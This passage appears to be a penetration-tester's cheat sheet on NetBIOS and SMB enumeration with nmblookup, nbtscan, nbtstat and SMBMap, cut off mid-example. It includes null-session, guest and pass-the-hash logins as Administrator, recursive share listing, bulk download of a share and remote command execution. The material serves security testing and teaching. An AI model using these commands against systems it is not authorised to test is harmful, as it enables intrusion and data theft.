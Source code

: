 ### Tools

- nmblookup
  - Query NetBIOS names and map them to IP addresses in a network
  - Using NetBIOS over TCP/IP queries
    ```
    nmblookup -A $ip
    ```
- nbtscan
  - Scan NetBIOS name servers open on a local or remote TCP/IP network
  - Works on a whole subnet instead of individual IP
  - Similar to `nbtstat` (Windows standard tool)
    ```
    nbtscan $ip/24
    ```
- nbtstat
    ```
    nbtstat $ip
    nbtscan -‐r $ip/24
    ```
  - nbtstat -c: displays the contents of the NetBIOS name cache, the table of NetBIOS names and their resolved IP addresses.
  - nbtstat -n: displays the names that have been registered locally on the system.
  - nbtstat -r: displays the count of all NetBIOS names resolved by broadcast and querying a WINS server.
  - nbtstat -R: purges and reloads the remote cache name table.
  - nbtstat -RR: sends name release packets to WINs and then starts Refresh.
  - nbtstat -s: lists the current NetBIOS sessions and their status, including statistics.
  - nbtstat -S: lists sessions table with the destination IP addresses.
- SMBMap - enumerate samba share drives across an entire domain
  - Allows users to enumerate samba share drives across an entire domain
  - Usage
    - List share drives, drive permissions, share contents
    - Upload/download functionality
    - File name auto-download pattern matching
    - Execute remote commands
    ```bash
    smbmap -H $ip
    ```
    ```bash
    smbmap -d <workgroup> -H $ip
    smbmap -u "" -p "" -d <workgroup> -H $ip
    smbmap -u guest -p "" -d <workgroup> -H $ip
    smbmap -u <user> -p <password> -d <workgroup> -H $ip
    smbmap -u <user> -p <password> -d <workgroup> -H $ip -L  #test command execution
    smbmap -u <user> -p <password> -d <workgroup> -H $ip -r  #read drive

    smbmap -u '' -p '' -H 192.168.1.23 # similar to crackmapexec --shares
    smbmap -u guest -p '' -H 192.168.1.23
    smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H 192.168.1.23
    smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H 192.168.1.23 -r # list top level dir
    smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H 192.168.1.23 -R # list everything recursively
    smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H 192.168.1.23 -s wwwroot -R -A '.*' # download everything recursively in the wwwroot share to /usr/share/smbmap. great when smbclient doesnt work
    smbmap -u Administrator -p aad3b435b51404eeaad3b435b51404ee:e101cbd92f05790d1a202bf91274f2e7 -H 192.168.1.23 -x whoami # no work
    ```
  - Recursively list dirs, and files:
    ```bash
    smbmap -R $sharename -H $ip